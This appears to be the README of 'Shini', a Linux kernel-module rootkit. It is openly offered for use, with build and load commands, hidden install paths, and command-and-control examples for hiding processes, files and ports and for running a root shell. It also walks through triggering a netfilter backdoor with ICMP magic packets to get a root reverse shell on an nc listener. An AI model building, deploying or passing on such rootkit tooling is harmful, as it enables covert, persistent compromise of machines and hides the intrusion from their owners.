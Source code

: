 # Intro

Shini is a modular lkm based rootkit(ring 0) for linux. Its purpose is to be simple, modular, 
generic (without relying on an architecture) and to segment its logical behavior from its hook methods.

# Features
  - exec any program with root privileges.
  - hide module (only itself).
  - hide files.
  - hide procresses.
  - hide tcp/udp (4 or 6, source or destination) connections.
  - netfilter backdoor.
 
# Dependencies
- gcc
- make
- linux headers
- insmod

# Tools

- shini/misc/cb, connect back. (the backdoor)
- shini/misc/cc, command and control (the client that will communicate with the rootkit).
- shini/scripts/bdt, backdoor trigger (a python script that will send icmp magic packets to the target).

# Build/Install

First you need to compile and load the lkm.

```console
# git clone https://github.com/Jin-Roh/shini
# cd shini/build
# make
# insmod shini.ko
```

Build and install the tools listed above.

```console
# cd shini/misc/
# ./install.sh
```

This shell script will be responsible for compiling, creating a folder in /etc/opt/ with a predetermined prefix, 
modifying the name of the programs and placing them in the folder created previously.

# Uninstall

```Just remove the module, if module_hide() are not commented in the main.c,``` 
```this will not work, it's necessary to reboot your vm.```

```console
# rmmod shini
```

# Standard Configuration

- prefix : .\_w00t1\_
- path   : /etc/opt/.\_w00t1\_/
- helper : /etc/opt/.\_w00t1\_/._w00t1_helper
- cb     : /etc/opt/.\_w00t1\_/._w00t1_cb
- cc     : /etc/opt/._w00t1_/._w00t1_cc

Read shini/misc/install.sh and shini/src/include/config.h files for more details.

# Usage
## Command and Control
```console
$ cd /shini/misc/cc/build
$ make
$ ./cc
```
or after run the install script.

```console
cd /etc/opt/._w00t1_/
./._w00t1_cc
```

The way to use it with examples will appear on the console.

```console
usage: 

./cc -e <exec>
./cc -h <value> -l <list>
./cc -s <value> -l <list>

<list>: 
	proc , hidden proc list
	file , hidden file list
	t4_s , hidden tcp4 source port list
	t4_d , hidden tcp4 dest port list
	t6_s , hidden tcp6 source port list
	t6_d , hidden tcp6 dest port list
	u4_s , ..
	u4_d , ..
	u6_s , ..
	u6_d , ..

example:

./cc -e /bin/sh        	 - exec /bin/sh as root
./cc -h 1878  -l proc  	 - hide pid 1878
./cc -s 1878  -l proc  	 - show pid 1878
./cc -h 14000 -l file  	 - hide ino 14000
./cc -h 22    -l t4_s  	 - hide tcp4 src  port 22
./cc -h 1337  -l u6_d  	 - hide udp6 dest port 1337

```

## Backdoor

On your machine, first listen to the connection on a port using nc, e.g.:
```console
$ nc -vvlp 4430
```

Still on your machine, run the ```bdt.py```(needs root) script with the correct parameters, e.g.: 

```console
# cd shini/scripts/bdt
# python2.7 bdt.py -t <target> -h <host> -p <port>
# python2.7 bdt.py -t 192.168.1.103 -h 192.168.1.100 -p 4430
[+] Data : backdoor!_192.168.1.100_4430_
[+] Packet sent!
```

- target, where the rootkit is installed.
- host, machine that receives the reverse connection.
- port, the port.
 
If all goes well, you will get a root shell on nc.

```console
$ nc -vvlp 4430
listening on [any] 4430 ...
192.168.1.103: inverse host lookup failed: 
connect to [192.168.1.100] from (UNKNOWN) [192.168.1.103] 49548
id
uid=0(root) gid=0(root) groups=0(root)
```

# Debug Messages

If syslog are installed:

```console
# tail -f /var/log/messages
```

Or:

```console
# dmesg | grep shini
```

# Tested on
 
- Linux 3.16.0-4-686-pae #1 SMP Debian 3.16.43-2+deb8u5 (2017-09-19) i686 GNU/Linux
- Linux 4.17.12-arch1-1-ARCH #1 SMP PREEMPT Fri Aug 3 07:16:41 UTC 2018 x86_64 GNU/Linux

# TODO
 
- persistence related to reboots (maybe the module infection technique, see references[4][7]).
- code documentation.
- better installation script.
- more tests, (mips, arm, powerpc, etc...).
- more tests, (kernel linux sources).

# References

1. https://elixir.bootlin.com/linux/v4.17.13/source
2. https://github.com/mncoppola/suterusu
3. http://phrack.org/issues/68/6.html#article  : Android platform based linux kernel rootkit, by dong-hoon you
4. http://phrack.org/issues/68/11.html#article : Infecting loadable kernel modules, by styx^
5. http://www.ouah.org/LKM_HACKING.html
6. http://phrack.org/issues/50/5.html#article  : Abuse of the Linux Kernel for Fun and Profit, by halflife
7. http://phrack.org/issues/61/13.html#article : Hacking the Linux Kernel Network Stack, by bioforge 
8. http://phrack.org/issues/61/10.html#article : Infecting loadable kernel modules, by truff

License
----
MIT
